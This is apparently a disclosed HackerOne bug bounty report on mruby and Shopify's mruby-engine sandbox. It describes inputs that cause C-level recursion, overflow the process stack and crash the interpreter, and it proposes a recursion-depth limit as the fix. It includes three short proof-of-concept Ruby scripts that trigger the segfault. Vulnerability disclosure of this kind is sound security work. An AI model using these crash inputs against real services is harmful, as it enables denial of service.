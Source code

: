 # Certain inputs cause tight C-level recursion leading to process stack overflow

## Report Details
- **Report ID**: 189633
- **URL**: https://hackerone.com/reports/189633
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-12-08T22:16:40.299Z
- **Disclosed**: 2017-03-14T22:22:39.902Z

## Reporter
- **Username**: dkasak
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Introduction
============

Certain legal Ruby programs can cause a tight recursion on the C-level (without using `eval`) while spending very little of the Ruby-level stack. This precludes triggering a Ruby stack overflow exception and eventually leads to a process stack overflow and a segfault. Both vanilla mruby and mruby running inside mruby-engine are vulnerable.

Proof of concept
================

recursive_to_i.rb:
------------------

    def to_i
        '' * self
    end

    to_i

1. Save the above code as `recursive_to_i.rb`.
2. Run either:
   a) `mruby recursive_to_i.rb`
   b) `sandbox recursive_to_i.rb`
3. Both cause a segfault due to a process stack overflow.

Discussion
==========

Everything below assumes the latest master of the mruby repository as of Dec 08th, which is commit `b84e005fc36a3c669586cc66ab3c87630d7a5509`.

Since the above POC redefines `to_i` on `Object`, it is very easy to trigger the crash afterwards, for instance, by trying to use any subclass of `Object` without its own `to_i` in an integer context.

Incidentally, that mruby uses `to_i` for implicit conversion to an `Integer` seems wrong (the offending code being in object.c, line 561). For instance, MRI Ruby gives the following for the above POC:

    recursive_to_i.rb:2:in `*': no implicit conversion of Object into Integer (TypeError)
            from recursive_to_i.rb:2:in `to_i'
            from recursive_to_i.rb:5:in `<main>'<Paste>

However, the problem isn't limited to overriding `to_i`. Some other inputs that exploit the same bug:

nil_method_ensure.rb
--------------------

    def nil.m
        m a ensure m + a
    end

    nil.m

This one crashes only mruby and not the sandbox:

module_new_do.rb
----------------

    def a
        Module.new do
            a
        end
    end

    a

There are probably others since the underlying cause is the same.

Solution
========

While there may be a way to fix these cases individually, it is our opinion that the C-level recursion depth should be tracked and, ideally, limited according to the size of the process stack.

We managed to produce recursions that spend as much as 3200 bytes of the process stack between two recursive `mrb_vm_run` calls while only spending 80 bytes of the Ruby stack. Based on some testing, we've derived a loose upper limit of the number of recursions needed to crash the interpreter in this scenario:

    (stack_size * 0.98) / 3200

Tightening the factors up a bit, we arrive at the following formula that should give a good safety margin (assumptions: 10% of the stack used before first call to `mrb_vm_run`, 4096 bytes of the process stack used between two recursive calls):

    (stack_size * 0.9) / 4096 - 1

We supply a patch where we've implemented C-level recursion depth tracking based on this formula, hardcoded to a stack size of 8 MiB (defined as a macro constant). Ideally, the process stack size should be determined using a method appropriate for the OS (for instance, `getrlimit` on POSIX).

--
Denis Kasak
Damir Jelić

## Attachments
- recursive_to_i.rb
- nil_method_ensure.rb
- module_new_do.rb
- recursion_limit.patch
